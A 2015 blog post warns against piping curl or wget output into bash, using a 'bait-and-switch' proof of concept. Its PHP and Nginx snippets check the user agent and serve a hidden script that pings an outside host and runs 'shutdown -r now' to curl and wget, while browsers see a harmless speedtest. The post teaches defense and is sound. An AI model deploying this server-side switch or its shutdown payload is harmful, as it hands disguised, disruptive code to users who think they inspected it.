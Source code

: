 ```yaml
---
date: 2015-10-09T00:12:03Z
disqus: true
escape_code: true
share: true
title: Please Stop curl/wget'ing Directly to bash/sh
url: /2015/10/09/please-stop-curl-wgeting-directly-to-bash-sh/
---
```


Today, we are going to discuss the dangers of sending the output of a curl or wget command directly to your shell. There are already a few examples on why this is dangerous, with a very clear and concise example available <a href="https://www.seancassidy.me/dont-pipe-to-your-shell.html" target="_blank">here</a> that explains the dangers of connections closing or failing before the transfer is completed. However, I would like to present a much more malicious example. *Sinister, even!* I call it "The Bait-and-Switch."
  
Though this is certainly nothing groundbreaking or even new, this proof of concept is what I hope will end this ridiculous trend of piping downloaded scripts directly to your shell once and for all.
  
Take the following URL, for example: <a href="https://1a4.fr/speedtest/" target="_blank">https&#58;//1a4.fr/speedtest/</a>
  
In your browser, the above URL shows a perfectly functional bash script you can use to do some CLI speed tests from DigitalOcean test machines in each of their datacenters. This script will download a 100 MB test file to show basic throughput expectations, and then it will measure the average latency with a series of pings to each test machine. This script by itself is actually quite useful to someone on DigitalOcean or someone considering which datacenter(s) to use in a new setup.
  
Now, let's try to grab the same exact URL using `curl` or `wget` (but **NOT** piping to bash):
  
``` bash
curl https://1a4.fr/speedtest/
```
``` bash
wget -O- https://1a4.fr/speedtest/
```
  
What kind of sourcery is this, you ask? Well, let's just go straight into the explanation. Like I mentioned in the introduction, we wanted to show what happens when there's true malicious intent on the server side. To demonstrate this, a friend and I decided to implement two separate proof of concept solutions to achieve the same bait-and-switch end result. We'll first show his example, written in PHP (he has chosen to remain nameless so you don't associate him with PHP):
``` php
<?php

if (isset($_SERVER['HTTP_USER_AGENT']))
{
    $useragent = strtolower($_SERVER['HTTP_USER_AGENT']);
}

if (!isset($useragent) || empty($useragent) || strpos($useragent, "curl") !== false || strpos($useragent, "wget") !== false)
{
    echo "#!/bin/sh\n";
    echo "#\n";
    echo "# If you are reading this, I fucked up or you pay attention to what you are doing. Friends don't let friends wget/curl into bash.\n";
    echo "# They don't prank them while they're working on their production networks either, so keep that in mind before you link to someone else.\n";
    echo "#\n";
    echo "# If you aren't reading this... well...\n";
    echo "#\n";
    echo "# Every host should have shutdown, right? They all run debian and ubuntu anyway...\n";
    echo " ping -q -s 90 -c 1 speedtest.gparent.org\n";
    echo "# We don't care if this works or not. We made our point\n";
    echo " shutdown -r now Attention all currently logged-in users - I have shutdown privileges and executed a shell script without reading its source code\n";
    echo "exit 0 # Exit cleanly. Very important.\n";
}
else
{
    header('Content-Type: text/plain');
    readfile("./script.sh");
}
?>
```
  
As you can see, this is an extremely basic script that will check the user agent string of the browser/client, and if it matches wget, curl or is blank, the malicious script will be presented as the output. Under any other conditions (browsers and some other downloaders that don't rely on wget or curl), the proper script will be presented to your browser, so you can feel all warm and fuzzy about "inspecting the source" before piping it directly to bash from curl/wget.
  
Here's the example I came up with using only Nginx to determine which of two files to serve (one malicious, one not):
  
``` nginx
## Proof of concept curl|sh bait and switch
location ~ ^/speedtest {
    index speedtest.txt;
    if ($http_user_agent !~* 'curl|wget') {
        root /home/speedtest;
    }
    root /home/speedtest/malicious;
}
```
  
This example is also quite simple, just like the above PHP version, but it requires only Nginx. To create the necessary directory structure, I created `/home/speedtest`, which contains `speedtest/speedtest.txt` and `malicious/speedtest/speedtest.txt` underneath it. I'm sure you can guess which one is the good script and which one is the bad. My example is only matching useragents that contain 'curl' or 'wget' in any case, but leaving any other ones untouched.
  
Easy, huh?
  
I hope our brief lesson has further implanted into your brain the dangers of piping scripts directly to your shell. Please do your civic duty and tell all your friends to watch out for assholes like myself and my anonymous researcher friend when moving about the interwebs, as you never know when we are out to prove a point (or concept)! We hope you will now at least think twice before piping scripts directly into your shell after downloading, and we'd be ecstatic if you *STOPPED DOING IT ALTOGETHER, BECAUSE IT'S JUST PLAIN STUPID*. This concludes our PSA.
